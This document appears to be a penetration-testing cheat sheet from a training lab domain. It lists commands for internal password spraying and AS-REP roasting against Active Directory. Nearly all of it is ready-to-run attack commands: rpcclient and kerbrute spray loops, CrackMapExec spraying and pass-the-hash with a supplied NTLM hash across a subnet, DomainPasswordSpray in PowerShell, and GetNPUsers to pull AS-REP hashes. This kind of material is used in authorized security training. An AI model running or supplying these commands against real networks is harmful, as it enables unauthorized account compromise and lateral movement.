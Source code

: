# Internal Password Spraying from a Linux Host
## rpcclient
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
## Kerbrute 
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
## Using CrackMapExec & Filtering Logon Failures
```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
### Validating the Credentials with CrackMapExec
```
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
## Local Administrator Password Reuse
### Local Admin Spraying with CrackMapExec
```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
## Internal Password Spraying - from Windows
```
Import-Module .\DomainPasswordSpray.ps1
```
```
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
We find a valid password for two more users, but neither has interesting access. It's still worth noting down a finding for Weak Active Directory Passwords allowed and moving on.
## ASREPRoasting
### Linux
#### Retrieving the AS-REP Using Kerbrute
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
#### Hunting for Users with Kerberoast Pre-auth Not Required
```
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```